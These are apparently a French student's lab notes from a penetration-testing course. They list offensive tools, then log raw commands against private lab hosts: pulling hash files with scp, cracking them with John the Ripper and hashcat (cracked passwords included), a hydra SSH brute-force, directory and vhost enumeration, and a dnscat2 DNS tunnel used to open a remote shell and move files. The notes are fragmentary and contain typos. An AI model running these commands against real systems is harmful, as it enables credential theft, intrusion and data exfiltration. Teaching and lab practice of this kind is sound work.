 .Sup

[[Sup de Vinci/cours/OSINT]] [[CTI]]
Hacke moi si tu peux.

Wireshask : trame
SQLmap : Hacking automatique
BURP / ZAP : outil crack site web
Recon-NG : OSINT
METASPLOIT : TOUT CASSER
NMAP :  Scan de port
Hydra : BruteForce sur service
Maltego : OSINT 
John : Crackage de mdp / BruteForce
Ping Castle : Reconnaissance : Test de sécurité sur de l'AD
BloodHound : Sur de l'AD
CRACKMAPEXEC : Recherche d'info sur du réseau windows
Ettercap : MAN IN the middle, pleins d'attaques
OPENVAS : Scanner de vulnérabilité 
AIRCRACKNG : Sur le wifi

Les Failles : 

Insécurité par compléxité
wifi ourvert
acces physique à la salle serveurs
sécurité des objets : smartphone, pc
ramasser une clé USB
Les poubelles
Hak5
Consignes de l'ANSSI sur le nomadisme        

Attaques
	Bruteforce : attaque de mdp avec combinaisons
	Attaque par dico : avec des mots

OUtils :
Wpscan 
	Testez 
	Catégorisez
	Ecrire 1 page recap
	Avec exemples concerts
	Les options pratiques 
	présentez l'outil

Mais c'est pas une Livebox ?

cat /infos_personnelle
23/02/1989

su monique
23/02/1989

chmod 777 coffre
cat mesnotes

LINGOT


base64
lection

head -6000 dump | tail -300 | head -100 | tail -50 | head -20  |  tail -10  | head -4  | tail -1 | cut -d " " -f5
macumba

file pour info fichier
zcat nomfichçer

sudo scp user@10.10.0.136:/home/user/marie.md5 /home/kali/marie.txt 

ashcat -m 0 -a 0 marie.db5 fasttrack.txt
P@55w0rd

sudo scp user@10.10.0.136:/home/user/marie.md5 /home/kali/
sudo zip2john /home/kali/benjamin.zip > benjamin.txt
sudo john --format=zip /home/kali/benjamin.txt
football
UXTrsrUFkfwYom9o4UvPyps7NuCLEP

sudo scp user@10.10.0.136:/home/benjamin/lucien.sha1 /home/kali/
python3


john --format:RAW-SHA1 -wordlist:fasttrack.txt lucien.sha1
dragon
gitclone /openwall/jhon.git
configure make 

cp users.pdf /tmp/
sudo scp user@10.10.0.136:/tmp/user.pdf /home/kali/

john --format:pdf -wordlist:fasttrack.txt users.pdf
pdf2john /home/kali/users.pdf > /home/kali/users.hash 

john --wordlist=fasttrack.txt users.hash
john --show /home/kali/users.hash
changelater mdp de pdf 
Virginie : iH{|m>$VzFWkYu7&nW9V

chmod 755 felix.sha256
cp felix.256 /tmp/
sudo scp user@10.10.0.136:/tpm/felix.sha256 /home/kali/
john --format:RAW-SHA256 -wordlist:fasttrack.txt felix.sha256
password123

su -l felix
chmod 755 marguerite.ntlm
cp marguerite.ntlm /tmp 
sudo scp user@10.10.0.136:/tmp/marguerite.ntlm /home/kali/
john --format:NT -wordlist:fasttrack.txt marguerite.ntlm
12345678  

su -l marguerite
chmod 755 tlm.xlsx
cp tlm.xlsx /tmp
sudo scp user@10.10.0.136:/tmp/tlm.xlsx /home/kali/
git clone https://github.com/magnumripper/JohnTheRipper.git
cd JohnTheRipper/src

office2john
office2john .xlsx .hash
john  -wordlist:fasttrack.txt tlm.hash
starwars

CLAUDE
chmod 755 shadow.backup
cp shadow.backup /tmp
sudo scp user@10.10.0.136:/tmp/shadow.backup /home/kali/
john -wordlist:fasttrack.txt shadow.backup

NOUVEAU 
sudo nmap 10.10.0.123 -sS
22/tcp open  ssh
80/tcp open  http
http://10.10.0.123/
dirb http://10.10.0.123/
dirb http://10.10.0.123/manual
ssh2john hector.priv hector.bash
hector
ssh -i id_rsa nullbyte@10.10.0.50
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john hector.hash hector@10.10.0.123

pour import ssh clef et la trouver
sudo scp hector@10.10.0.123:/home/hector/.ssh/root /home/kali/
ssh -i id_rsa nullbyte@10.10.0.50
chmod 400

ssh -i maple hector@tp1@10.10.0.123
ssh -i id_rsa nullbyte@10.10.0.50


NOUVEAU EN 129
hydra -l root -P dico -s 22 -f 10.10.0.129 ss


rajouter dans etc/host les domaines
	 www.domain.lan yyy.domain.lan xxx.domain.lan

Mot de passe n°1
Pac4JtmUr9

dirb http://xxx.domain.lan:22/?login=

Mot de passe n°2 : ugJ7EVfgvk
Mot de passe n°2 : ugJ7EVfgvk

Enumération domain
gobuster dir -u 10.10.0.129:22 -w /usr/share/wordlists/dirb/common.txt
gobuster dns -d 10.10.0.254:22 -w /usr/share/wordlists/dirb/common.txt
gobuster vhost -u http://www.domain.lan:22/ -w ./testlist   
curl http://admin.domain.lan:22/

Mot de passe n°3 :wV33FPdJPV

cd /root/demo
python2 dnsteal.py 0.0.0.0 -v
git clone https://github.com/helgeklein/dnsteal.git

$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/client/
$ make
./dnscat

$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install

Serveur
ruby ./dnscat2.rb 

Client 	
./dnscat --dns server=x.x.x.x,port=53 --secret=c52fa7091bb77c621bf3f94e996a2f53

on ouvre en wireshark sur le client filtre dns
session -i 1
shell
ça crée une fenetre
session -i 16
exec notepad.exe
session -i 1
sudo scp user@10.10.0.136:/tmp/shadow.backup /home/kali/
download /home/parrot/eliot_vicon.jpg /home/kali/Pictures/bg.jpg

UPLOAD FICHIER
session -i 1
upload /home/kali/Pictures/hacking.jpeg /home/parrot/Desktop/secret.jpeg


